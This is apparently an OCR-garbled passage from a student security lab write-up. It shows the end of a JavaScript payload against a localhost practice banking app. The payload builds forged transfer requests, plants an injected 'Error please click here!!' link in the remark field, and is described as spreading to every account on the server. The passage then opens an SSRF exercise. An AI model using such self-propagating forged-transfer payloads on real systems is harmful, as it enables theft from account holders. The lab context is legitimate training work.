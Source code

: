  &dstbank\=41131337&dstacc\="

 + destAccount + "&amount\=1.3&remark\=%3Ca+onclick%3D%22y%28%29

 %22%3EError+please+click+

 here%21%21%3C%2Fa%3E++&htbtransfer\=Transfer";

 document.getElementById('images').appendChild(executeFunction);

  

 }

 });

  

 const url \= "http://localhost/htdocs/index.php

 ?page\=htbtransfer&srcacc\=" 

 + accountNo + "&dstbank=41131337&dstacc=14314312

 &amount\=1.95&remark\=&htbtransfer\=Transfer";

  

 window.open(url, "\_blank");

  

 }

</script\>

</html\>

\`\`\`

  

\- When the victim clicks the \` Error please click here!!!\` link the attack will spread to all accounts on the bank server.

  

!\[Automated\_Attack\](images/task2/1.5.JPG)

<br></br>

<hr></hr>

<br></br>

  

### Exercise 2: Server-Side Request Forgery(SSRF)

  
  
  

\_\_1. Briefly explain in your own words what is SSRF vulnerability and common SSRF attacks and what are the common SSRF defences circumventing\_\_

  

\_\_Solution\_\_ 
